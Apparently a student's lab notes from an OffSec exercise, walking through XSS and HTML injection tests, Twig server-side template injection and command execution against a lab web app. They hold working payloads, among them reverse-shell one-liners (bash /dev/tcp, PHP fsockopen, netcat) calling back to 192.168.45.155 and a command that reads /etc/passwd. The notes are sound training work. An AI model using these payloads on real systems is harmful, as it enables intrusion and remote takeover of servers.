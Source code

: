 
potential field to test 
![[Pasted image 20241119170105.png]]
navigate to manage posts to see
![[Pasted image 20241119170132.png]]
see test
![[Pasted image 20241119170150.png]]
when attempting to `delete` it doesn't get deleted, the in burpsuite shows a new field `delete` & `postNumber`
![[Pasted image 20241119170346.png]]



-----

#### `<h1>offsec</h1>` payload test
submitting this `<h1>offsec</h1>` crashes the website and doesn't get uploaded
![[Pasted image 20241119170616.png]]
fails to get a `200` success
![[Pasted image 20241119170725.png]]

-----

#### `<script>alert(0)</script>` payload

submitting this payload doesnt render on the screen but renders in burpsuite, maybe another xss?

![[Pasted image 20241119170907.png]]
doesn't render could mean `innerHTML` is active - especially since the `h1` tag payload crashed the website
![[Pasted image 20241119170934.png]]
`innerHTML` identified in `SOURCES`
![[Pasted image 20241119171218.png]]payloads to test `innerHTML` with

#### Payload Cheatsheet:
```html
<h1>offsec</h1> - used for initial HTML injection
```

```js
<script>alert(0)</script> - used to display alerts
<img src='x' onerror='alert(1)'> - used to bypass innerHTML (found in network packets) and allow scripts
```
testing payload crashed again
![[Pasted image 20241119171345.png]]
what crash looks like in `burpsuite`
![[Pasted image 20241119171406.png]]
peaked at `discord` and got tipped of `SSTI`

----------
#### SSTI testing

`{{5*5}}` payload to test for `twig` a `PHP` template
![[Pasted image 20241119174435.png]]
to make sure it worked navigate to original `http://jubula` endpoint
![[Pasted image 20241119174607.png]]
since it processed, that means its `php` according to [[11.1 - 11.2 Templating Engines]]
![[Pasted image 20241119174647.png]]

testing `command injection` payload for `twig` found in [[11.2 - 11.2.2 Twig - Discovery and Exploitation]]
`{{[0]|reduce('system','id')}}`
![[Pasted image 20241119180050.png]]
shows who we are `www-data` on base `http://jubula` page
![[Pasted image 20241119180133.png]]
going to try to get a revers shell
didnt work
```bash
{{[0]|reduce('system',"bash -c 'bash -i >& /dev/tcp/192.168.45.155/4444 0>&1'")}}
```
need to retest
```php
php -r '$sock=fsockopen("192.168.45.155",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
```



Upon entering this `twig` script with the `passthru` function we get the flag
```twig
{{ ['passthru("cat $IFS/etc/passwd")']|filter('system') }}
```
![[Pasted image 20241121091702.png]]
maybe used to get a revshell - didnt work
```twig
{{ ['passthru("bash -c \'bash -i >& /dev/tcp/192.168.45.155/4444 0>&1\'")']|filter('system') }}
```
didnt work
```twig
{{ [0]|reduce('system', 'bash -c "bash -i >& /dev/tcp/192.168.45.155/4444 0>&1"') }}
```
checking to see if `netcat` exists on the system
```twig
{{[0]|reduce('system','which nc')}}
```
![[Pasted image 20241121092659.png]]
reverse shell payload
```twig
{{ [0]|reduce('system', 'nc -e /bin/bash 192.168.45.155 4444') }}
```
where the payload was submitted
![[Pasted image 20241121093830.png]]
upon submission, while the `reverse shell` is active the website refuses to load
![[Pasted image 20241121093747.png]]
`proof.txt: 8d9c80f48b4fe346b7a0e6578646576f`
![[Pasted image 20241121093422.png]]